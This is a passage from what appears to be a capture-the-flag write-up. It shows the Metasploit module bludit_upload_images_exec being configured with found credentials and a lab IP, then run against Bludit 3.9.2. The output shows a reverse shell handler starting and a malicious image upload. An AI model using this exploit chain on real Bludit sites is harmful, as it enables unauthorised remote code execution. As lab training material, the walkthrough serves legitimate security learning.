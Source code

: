 ![Alt text](images/6.png)
The new content page allows us to create a blog, but nothing that lets us exploit for a shell, luckily, metasploit is there for us.
```bash
msf5 exploit(linux/http/bludit_upload_images_exec) > set BLUDITPASS RolandDeschain
BLUDITPASS => RolandDeschain
msf5 exploit(linux/http/bludit_upload_images_exec) > set BLUDITUSER fergus
BLUDITUSER => fergus
msf5 exploit(linux/http/bludit_upload_images_exec) > set RHOSTS 10.10.10.191
RHOSTS => 10.10.10.191
msf5 exploit(linux/http/bludit_upload_images_exec) > options

Module options (exploit/linux/http/bludit_upload_images_exec):

   Name        Current Setting  Required  Description
   ----        ---------------  --------  -----------
   BLUDITPASS  RolandDeschain   yes       The password for Bludit
   BLUDITUSER  fergus           yes       The username for Bludit
   Proxies                      no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS      10.10.10.191     yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT       80               yes       The target port (TCP)
   SSL         false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI   /                yes       The base path for Bludit
   VHOST                        no        HTTP server virtual host


Exploit target:

   Id  Name
   --  ----
   0   Bludit v3.9.2


msf5 exploit(linux/http/bludit_upload_images_exec) > run

[*] Started reverse TCP handler on 10.10.15.2:4444 
[+] Logged in as: fergus
[*] Retrieving UUID...
[*] Uploading eDHvHrHJgC.png...
```